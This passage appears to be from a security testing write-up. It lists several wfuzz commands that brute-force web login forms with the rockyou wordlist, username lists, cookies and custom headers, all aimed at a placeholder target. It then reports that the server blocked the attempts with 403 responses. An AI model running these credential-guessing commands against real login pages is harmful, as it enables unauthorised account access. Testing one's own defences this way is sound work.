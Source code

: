 Substitutes words from the file rockyou_short.txt in the password field.

Example 2: Going through the password and login at the same time (double substitution)

````
wfuzz -c -z file,usernames.txt -z file,rockyou_short.txt -d "username=FUZZ1&password=FUZZ2" -H "Content-Type: application/x-www-form-urlencoded" http://target-url/login
````

Uses two dictionaries: one for logins (usernames.txt ), another for passwords (rockyou_short.txt ).

Example 3: Password brute force in a GET request (for example, authentication via URL parameters)

````
wfuzz -c -z file,rockyou_short.txt http://target-url/login?username=admin&password=FUZZ
````

Example 4: Password brute force using session cookies

````
wfuzz -c -z file,rockyou_short.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -b "sessionid=abcdef123456" http://target-url/login
````

The -b option adds a cookie to the request.

Example 5: Brute-forcing a password with the User-Agent header

````
wfuzz -c -z file,rockyou_short.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -H "User-Agent: Mozilla/5.0" http://target-url/login
````

Example 6: Displaying only successful attempts (for example, HTTP codes are not 403)

````
wfuzz -c -z file,rockyou_short.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" --hc 403 http://target-url/login
````

The --hc 403 (hide codes) parameter hides all responses with the 403 code so as not to clog the output.


### 🚫 System response (code 403)

![image](https://github.com/user-attachments/assets/c2b62c91-7dc8-4602-96bd-90ed1f07979f)

![image](https://github.com/user-attachments/assets/f59d2a15-b7a8-4fd5-8c35-69be104be832)

![image](https://github.com/user-attachments/assets/2c10245f-0ee1-4b91-97e1-5843c549df26)

In all cases, the server returned the HTTP status code 403 Forbidden when the allowed number of authorization attempts was exceeded.

This indicates the successful activation of protective mechanisms that:

- They track the number of failed attempts from each IP.

- They restrict further access by blocking the attacker's IP.
